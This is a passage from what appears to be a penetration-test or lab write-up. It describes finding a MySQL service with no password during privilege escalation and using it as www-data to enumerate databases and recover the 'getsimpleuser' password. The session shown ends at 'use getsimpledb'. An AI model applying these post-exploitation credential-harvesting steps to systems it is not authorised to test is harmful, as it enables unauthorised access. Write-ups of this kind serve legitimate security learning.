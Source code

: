 During our privilege escalation efforts, a significant discovery was made. We identified the presence of a MySQL service running on the target system, and to our surprise, it was accessible without any password protection. This security oversight allowed any user with internal access to the machine to connect to the MySQL service without the need for credentials, exposing potential avenues for further exploration and lateral movement within the system:

![MySQL](mysql.PNG)

As part of our enumeration process, we delved into the MySQL database on the target system. Through meticulous investigation, we successfully retrieved the password associated with a user named 'getsimpleuser.' This crucial credential acquisition opened up further possibilities for exploitation and lateral movement, as we gained access to the 'getsimpleuser' account :

```
www-data@simple:/tmp$ mysql
mysql
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.34-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| getsimpledb        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.05 sec)

mysql> use getsimpledb;
use getsimpledb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```
